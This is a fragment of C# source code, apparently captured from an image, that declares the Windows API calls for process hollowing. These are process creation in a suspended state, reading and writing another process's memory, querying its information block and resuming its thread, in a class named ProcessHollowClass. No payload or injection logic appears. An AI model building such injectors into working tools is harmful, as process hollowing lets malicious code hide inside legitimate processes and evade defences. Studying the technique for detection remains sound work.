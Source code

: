 ```csharp
        string lpCommandLine,
        ref SECURITY_ATTRIBUTES lpProcessAttributes,
        ref SECURITY_ATTRIBUTES lpThreadAttributes,
        bool bInheritHandles,
        uint dwCreationFlags,
        IntPtr lpEnvironment,
        string lpCurrentDirectory,
        [In] ref STARTUPINFO lpStartupInfo,
        out PROCESS_INFORMATION lpProcessInformation
    );

    // http://www.pinvoke.net/default.aspx/kernel32/ResumeThread.html
    [DllImport("kernel32.dll", SetLastError = true)]
    static extern uint ResumeThread(IntPtr hThread);

    // http://www.pinvoke.net/default.aspx/Structures/PROCESS_BASIC_INFORMATION.html
    [StructLayout(LayoutKind.Sequential)]
    internal struct PROCESS_BASIC_INFORMATION
    {
        public IntPtr ExitStatus;
        public IntPtr PebAddress;
        public IntPtr AffinityMask;
        public IntPtr BasePriority;
        public IntPtr UniquePID;
        public IntPtr InheritedFromUniqueProcessId;
    }

    [DllImport("ntdll.dll", CallingConvention = CallingConvention.StdCall)]
    static extern int ZwQueryInformationProcess(
        IntPtr hProcess,
        int procInformationClass,
        ref PROCESS_BASIC_INFORMATION procInformation,
        uint ProcInfoLen,
        ref uint retlen
    );

    // http://www.pinvoke.net/default.aspx/kernel32/ReadProcessMemory.html
    [DllImport("kernel32.dll", SetLastError = true)]
    static extern bool ReadProcessMemory(
        IntPtr hProcess,
        IntPtr lpBaseAddress,
        [Out] byte[] lpBuffer,
        int dwSize,
        out IntPtr lpNumberOfBytesRead
    );

    // http://www.pinvoke.net/default.aspx/kernel32/WriteProcessMemory.html
    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern bool WriteProcessMemory(
        IntPtr hProcess,
        IntPtr lpBaseAddress,
        byte[] lpBuffer,
        Int32 nSize,
        out IntPtr lpNumberOfBytesWritten
    );

    // https://learn.microsoft.com/en-us/windows/win32/procthread/process-creation-flags
    static uint CREATE_SUSPENDED = 0x00000004;

    // https://learn.microsoft.com/en-us/windows/win32/procthread/zwqueryinformationprocess
    static int ProcessBasicInformation = 0x00000000;
    public ProcessHollowClass()
    {
```